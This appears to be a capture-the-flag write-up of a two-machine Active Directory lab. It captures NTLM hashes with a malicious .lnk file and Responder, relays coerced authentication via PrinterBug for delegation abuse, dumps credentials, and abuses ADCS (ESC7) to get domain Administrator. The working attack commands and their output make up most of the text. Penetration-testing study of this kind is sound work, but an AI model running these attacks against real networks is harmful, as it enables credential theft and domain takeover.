

The intercept AD chain prepared by xct is a hard difficulty chain and consists of two Windows machines.We place a malicious file on a share where we have access and capture NTLM authentication. From there, we will become an Administrator purely by leveraging default Windows settings that are in place without any additional misconfigurations or weaknesses. Afterwards, we will exploit a misconfiguration in ADCS to escalate to Domain Admin. Enjoy the read!

# WS01

Start with a classic Nmap scan.

```zsh
➜  intercept nmap -p- --min-rate 1000 -iL target.ip -oN port.txt  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-25 03:48 +04
Nmap scan report for dc01.intercept.vl (10.10.224.133)
Host is up (0.11s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
636/tcp   open  ldapssl
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
49664/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
50989/tcp open  unknown
51016/tcp open  unknown
51033/tcp open  unknown
51044/tcp open  unknown

Nmap scan report for ws01.intercept.vl (10.10.224.134)
Host is up (0.090s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
```

We found that the guest user has write access to the DEV share.

```zsh
➜  intercept netexec smb ws01.intercept.vl -u guest -p '' --shares
SMB         10.10.224.134   445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:intercept.vl) (signing:False) (SMBv1:False)
SMB         10.10.224.134   445    WS01             [+] intercept.vl\guest: 
SMB         10.10.224.134   445    WS01             [*] Enumerated shares
SMB         10.10.224.134   445    WS01             Share           Permissions     Remark
SMB         10.10.224.134   445    WS01             -----           -----------     ------
SMB         10.10.224.134   445    WS01             ADMIN$                          Remote Admin
SMB         10.10.224.134   445    WS01             C$                              Default share
SMB         10.10.224.134   445    WS01             dev             READ,WRITE      shared developer workspace
SMB         10.10.224.134   445    WS01             IPC$            READ            Remote IPC
SMB         10.10.224.134   445    WS01             Users           READ            
```

Then, using ntlm_theft, we create a malicious file and capture the hash with Responder.(Of course, it won't be as simple as just placing the file on the share—someone needs to actually click on it. Since this is a lab environment, it's set up this way, but in real life, someone would have to interact with the file. Creating it as an Excel file named 'Bonus_Payment' is a good way to entice clicks, lol.)

```zsh
➜  ntlm_theft git:(master) python3 ntlm_theft.py -g lnk -s 10.8.6.29 -f /home/user/VULNLAB/intercept/bonus
Created: /home/user/VULNLAB/intercept/bonus.lnk (BROWSE TO FOLDER)
Generation Complete.
```

Let's put it on our share.

```zsh
➜  intercept impacket-smbclient intercept.vl/guest@ws01.intercept.vl -no-pass          
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use dev
# put bonus.lnk
```

Start Responder.

```zsh
➜  bonus.lnk sudo responder -wv -I tun0
sh: 0: getcwd() failed: No such file or directory
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [OFF]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [OFF]
    SMB server                 [ON]
[SMB] NTLMv2-SSP Client   : 10.10.224.134
[SMB] NTLMv2-SSP Username : INTERCEPT\Kathryn.Spencer
[SMB] NTLMv2-SSP Hash     : Kathryn.Spencer::INTERCEPT:4c85e78cd0fbf7fb:FC3C68A4ACE80509C250F7266E6EBEE9:0101000000000000806037772ACDDB018A1AD474EDF32ACA000000000200080059004D003400580001001E00570049004E002D005400390032005700420033XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXD00340058002E004C004F00430041004C0007000800806037772ACDDB0106000400020000000800300030000000000000000000000000200000C5C3091A88F0DEA1FA296E230C68452BF4FDF913BC11A6B7BB2360982C0B72EF0A0010000000000000000000000000000000000009001C0063006900660073002F00310030002E0038002E0036002E00320039000000000000000000
[SMB] NTLMv2-SSP Client   : 10.10.224.134
[SMB] NTLMv2-SSP Username : INTERCEPT\Kathryn.Spencer
[SMB] NTLMv2-SSP Hash     : Kathryn.Spencer::INTERCEPT:1489e5690bd6f078:709E626CC7F6B5E90FD6FF7D8CFCAD08:0101000000000000806037772ACDDB014A9C1988C34FF350000000000200080059004D003400580001001E00570049004E002D005400390032005700420033XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXD00340058002E004C004F00430041004C0007000800806037772ACDDB0106000400020000000800300030000000000000000000000000200000C5C3091A88F0DEA1FA296E230C68452BF4FDF913BC11A6B7BB2360982C0B72EF0A0010000000000000000000000000000000000009001C0063006900660073002F00310030002E0038002E0036002E00320039000000000000000000
[SMB] NTLMv2-SSP Client   : 10.10.224.134
[SMB] NTLMv2-SSP Username : INTERCEPT\Kathryn.Spencer
[SMB] NTLMv2-SSP Hash     : Kathryn.Spencer::INTERCEPT:ba3642b6e7599ee0:C8748EBE224388008F2570B381E55E8C:0101000000000000806037772ACDDB01DB7730605EC52B04000000000200080059004D003400580001001E00570049004E002D005400390032005700420033XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXD00340058002E004C004F00430041004C0007000800806037772ACDDB0106000400020000000800300030000000000000000000000000200000C5C3091A88F0DEA1FA296E230C68452BF4FDF913BC11A6B7BB2360982C0B72EF0A0010000000000000000000000000000000000009001C0063006900660073002F00310030002E0038002E0036002E00320039000000000000000000
[SMB] NTLMv2-SSP Client   : 10.10.224.134
[SMB] NTLMv2-SSP Username : INTERCEPT\Kathryn.Spencer
[SMB] NTLMv2-SSP Hash     : Kathryn.Spencer::INTERCEPT:b5c5f28565b1fc93:346092ABD38EC983EBD073BD355D2869:0101000000000000806037772ACDDB01C44FA23D627EBF46000000000200080059004D003400580001001E00570049004E002D005400390032005700420033XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXD00340058002E004C004F00430041004C0007000800806037772ACDDB0106000400020000000800300030000000000000000000000000200000C5C3091A88F0DEA1FA296E230C68452BF4FDF913BC11A6B7BB2360982C0B72EF0A0010000000000000000000000000000000000009001C0063006900660073002F00310030002E0038002E0036002E00320039000000000000000000
```

```zsh
➜  intercept hashcat -a 0  -m 5600 Kathryn_Spencer.hash /usr/share/wordlists/rockyou.txt --show
KATHRYN.SPENCER::INTERCEPT:b5c5f28565b1fc93:346092abd38ec983ebd073bd355d2869:0101000000000000806037772acddb01c44fa23d627ebf46000000000200080059004d003400580001001e00570049004e002d005400390032005700420033XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXd00340058002e004c004f00430041004c0007000800806037772acddb0106000400020000000800300030000000000000000000000000200000c5c3091a88f0dea1fa296e230c68452bf4fdf913bc11a6b7bb2360982c0b72ef0a0010000000000000000000000000000000000009001c0063006900660073002f00310030002e0038002e0036002e00320039000000000000000000:<REDACTED>
```

At this point, I will show a path that can be reached purely through default settings without any misconfigurations. This [link](https://anoetic.medium.com/almost-da-by-default-9f98ea58b8f1) is really helpful to read about this path

First, we check MAQ and WebDav (WebDav is on WS01).

```zsh
➜  intercept netexec smb ws01.intercept.vl -u kathryn.spencer -p <REDACTED>  -M webdav
SMB         10.10.224.134   445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:intercept.vl) (signing:False) (SMBv1:False)
SMB         10.10.224.134   445    WS01             [+] intercept.vl\kathryn.spencer:<REDACTED> 
WEBDAV      10.10.224.134   445    WS01             WebClient Service enabled on: 10.10.224.134
➜  intercept netexec ldap dc01.intercept.vl -u kathryn.spencer -p <REDACTED>  -M maq   
SMB         10.10.224.133   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:intercept.vl) (signing:True) (SMBv1:False)
LDAP        10.10.224.133   389    DC01             [+] intercept.vl\kathryn.spencer:<REDACTED> 
MAQ         10.10.224.133   389    DC01             [*] Getting the MachineAccountQuota
MAQ         10.10.224.133   389    DC01             MachineAccountQuota: 10
```

Of course, it's also necessary to check LDAP.


```zsh
➜  ~ nxc ldap 10.10.131.53  -u kathryn.spencer -p '<REDACTED>' -M ldap-checker
SMB         10.10.131.53    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:intercept.vl) (signing:True) (SMBv1:False)
LDAP        10.10.131.53    389    DC01             [+] intercept.vl\kathryn.spencer:<REDACTED> 
LDAP-CHE... 10.10.131.53    389    DC01             LDAP Signing NOT Enforced!
LDAP-CHE... 10.10.131.53    389    DC01             LDAPS Channel Binding is set to "NEVER"
```


We add a machine named XPP to the domain.

```zsh
➜  intercept impacket-addcomputer  -computer-name 'xpp$' -computer-pass 'P@ssword1!' 'interecept.vl/kathryn.spencer'  -dc-ip 10.10.224.133
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Successfully added machine account xpp$ with password P@ssword1!.
```


Now, we add a DNS record.

```zsh
➜  krbrelayx git:(master) python3 dnstool.py 10.10.224.133 -u intercept.vl\\kathryn.spencer -p '<REDACTED>' -r attackerhost -a add  -d [KALI_IP]
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```


Let's verify.

```zsh
➜  krbrelayx git:(master) python3 dnstool.py 10.10.224.133 -u interecept.vl\\kathryn.spencer -p '<REDACTED>' -r attackerhost -a query
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found record attackerhost
DC=attackerhost,DC=intercept.vl,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intercept,DC=vl
[+] Record entry:
 - Type: 1 (A) (Serial: 83)
 - Address: [KALI_IP]
```
Great.

We will perform a relay and impersonate the Administrator.

```zsh
➜  ~ impacket-ntlmrelayx -t ldaps://10.10.131.53 -smb2support --delegate-access --escalate-user 'xpp$'                        
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Protocol Client SMB loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Multirelay disabled

[*] Servers started, waiting for connections
```

We can use PrinterBug to trigger it.

```zsh
➜  krbrelayx git:(master) python3 /home/user/tools/krbrelayx/printerbug.py intercept.vl/'xpp$':'P@ssword1!'@ws01.intercept.vl attackerhost@80/asdf
[*] Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attempting to trigger authentication via rprn RPC at ws01.intercept.vl
[*] Bind OK
[*] Got handle
RPRN SessionError: code: 0x6ba - RPC_S_SERVER_UNAVAILABLE - The RPC server is unavailable.
[*] Triggered RPC backconnect, this may or may not have worked
```

```zsh
[*] HTTPD(80): Client requested path: /asdf/pipe/spoolss
[*] HTTPD(80): Client requested path: /asdf/pipe/spoolss
[*] HTTPD(80): Connection from 10.10.131.54 controlled, attacking target ldaps://10.10.131.53
[*] HTTPD(80): Client requested path: /asdf/pipe/spoolss
[*] HTTPD(80): Authenticating against ldaps://10.10.131.53 as INTERCEPT/WS01$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] HTTPD(80): Client requested path: /asdf/pipe/spoolss
[*] HTTPD(80): Client requested path: /asdf/pipe/spoolss
[*] All targets processed!
[*] HTTPD(80): Connection from 10.10.131.54 controlled, but there are no more targets left!
[*] HTTPD(80): Client requested path: /asdf/pipe/spoolss
[*] HTTPD(80): Client requested path: /asdf/pipe/spoolss
[*] All targets processed!
[*] HTTPD(80): Connection from 10.10.131.54 controlled, but there are no more targets left!
[*] HTTPD(80): Client requested path: /asdf/pipe
[*] HTTPD(80): Client requested path: /asdf/pipe
[*] All targets processed!
[*] HTTPD(80): Connection from 10.10.131.54 controlled, but there are no more targets left!
[*] Delegation rights modified succesfully!
[*] xpp$ can now impersonate users on WS01$ via S4U2Proxy
```

As seen from the last line, we can now impersonate.

Now, we can obtain the TGT ticket using getST.

```zsh
➜  ~ impacket-getST -spn host/ws01.intercept.vl -impersonate 'Administrator' 'intercept.vl'/'xpp$':'P@ssword1' -dc-ip 10.10.131.53
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
/usr/share/doc/python3-impacket/examples/getST.py:380: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/usr/share/doc/python3-impacket/examples/getST.py:477: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2self
/usr/share/doc/python3-impacket/examples/getST.py:607: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/usr/share/doc/python3-impacket/examples/getST.py:659: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@host_ws01.intercept.vl@INTERCEPT.VL.ccache
```

We can use WS01 administrator ccaache file.
```zsh
➜  ~ export KRB5CCNAME=Administrator@host_ws01.intercept.vl@INTERCEPT.VL.ccache        
```

Dump the passwords and hashes with secretsdump.
```zsh
  ~ impacket-secretsdump administrator@WS01.intercept.vl -k -no-pass 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x04718518c7f81484a5ba5cc7f16ca912
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
<SNIP>
[*] _SC_HelpdeskService 
Simon.Bowen@intercept.vl:<REDACTED>
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```

# DC01

Looking at the BloodHound data, Simon Bowen is a member of the HelpDesk group and has GenericAll rights on the CA-Managers group.

<figure><figcaption></figcaption></figure>

Let's add ourselves to the CA-MANAGERS group right away.

```zsh
➜  ~ bloodyAD  --host "10.10.131.53" -d 'intercept.vl' -u 'simon.bowen' -p '<REDACTED>' add groupMember CA-MANAGERS simon.bowen
[+] simon.bowen added to CA-MANAGERS
```

Now, let's look at the vulnerable certificates.

```zsh
➜  ~ certipy-ad find -u 'simon.bowen' -p '<REDACTED>' -dc-ip 10.10.131.53 -vulnerable -stdout         
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'intercept-DC01-CA' via CSRA
[*] Got CA configuration for 'intercept-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : intercept-DC01-CA
    DNS Name                            : DC01.intercept.vl
    Certificate Subject                 : CN=intercept-DC01-CA, DC=intercept, DC=vl
    Certificate Serial Number           : 70D0F736AA9598A445940D18F17AE828
    Certificate Validity Start          : 2023-06-27 13:24:59+00:00
    Certificate Validity End            : 2125-05-25 03:01:53+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : INTERCEPT.VL\Administrators
      Access Rights
        Enroll                          : INTERCEPT.VL\Authenticated Users
        ManageCa                        : INTERCEPT.VL\ca-managers
                                          INTERCEPT.VL\Domain Admins
                                          INTERCEPT.VL\Enterprise Admins
                                          INTERCEPT.VL\Administrators
        ManageCertificates              : INTERCEPT.VL\Domain Admins
                                          INTERCEPT.VL\Enterprise Admins
                                          INTERCEPT.VL\Administrators
    [!] Vulnerabilities
      ESC7                              : 'INTERCEPT.VL\\ca-managers' has dangerous permissions
Certificate Templates                   : [!] Could not find any certificate templates
```

This [link](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc7-dangerous-permissions-on-ca) on GitHub is quite helpful at this point.


We can add ourselves as the new officer.


```zsh
➜  ~ certipy-ad ca -u 'simon.bowen' -p '<REDACTED>' -dc-ip '10.10.131.53' -target 'dc01.intercept.vl' -ca 'intercept-DC01-CA' -add-officer 'simon.bowen' -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'dc01.intercept.vl' at '10.10.131.53'
[+] Authenticating to LDAP server
[+] Bound to ldaps://10.10.131.53:636 - ssl
[+] Default path: DC=intercept,DC=vl
[+] Configuration path: CN=Configuration,DC=intercept,DC=vl
[+] Trying to get DCOM connection for: 10.10.131.53
[*] Successfully added officer 'Simon.Bowen' on 'intercept-DC01-CA'
```

Now, let's list the templates.

```zsh
➜  ~ certipy-ad ca -u 'simon.bowen' -p '<REDACTED>' -dc-ip 10.10.131.53 -ca intercept-DC01-CA -list-template 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Enabled certificate templates on 'intercept-DC01-CA':
    DirectoryEmailReplication
    DomainControllerAuthentication
    KerberosAuthentication
    EFSRecovery
    EFS
    DomainController
    WebServer
    Machine
    User
    SubCA
    Administrator
```


As stated in the documentation, let's enable your certificate just in case.

```zsh
➜  ~ certipy-ad ca -u 'simon.bowen' -p '<REDACTED>' -dc-ip '10.10.131.53' -target 'dc01.intercept.vl' -ca 'intercept-DC01-CA' -enable-template 'SubCA'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully enabled 'SubCA' on 'intercept-DC01-CA'
```

This request will be denied but we will save the private key and note down the request ID:

```zsh
➜  ~ certipy-ad req -u Simon.Bowen -p '<REDACTED>' -dc-ip 10.10.131.53  -ca intercept-DC01-CA -template 'SubCA' -upn administrator@intercept.vl -target intercept.vl 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 5
Would you like to save the private key? (y/N) y
[*] Saved private key to 5.key
[-] Failed to request certificate
```

Send the request.

```zsh
➜  ~ certipy-ad ca -u Simon.Bowen -p '<REDACTED>' -dc-ip 10.10.131.53 -ca 'intercept-DC01-CA' -issue-request 5 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```

Now we can validate failed request ,since we have key.

```zsh
➜  ~ certipy-ad req -u Simon.Bowen -p '<REDACTED>' -dc-ip 10.10.131.53 -ca 'intercept-DC01-CA' -target intercept.vl -retrieve 5 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 5
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@intercept.vl'
[*] Certificate has no object SID
[*] Loaded private key from '5.key'
[*] Saved certificate and private key to 'administrator.pfx'
```

We can authenticate as the Administrator.


```zsh
➜  ~ certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.131.53  -domain intercept.vl -username administrator                     
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@intercept.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@intercept.vl': aad3b435b51404eeaad3b435b51404ee:<REDACTED>
```


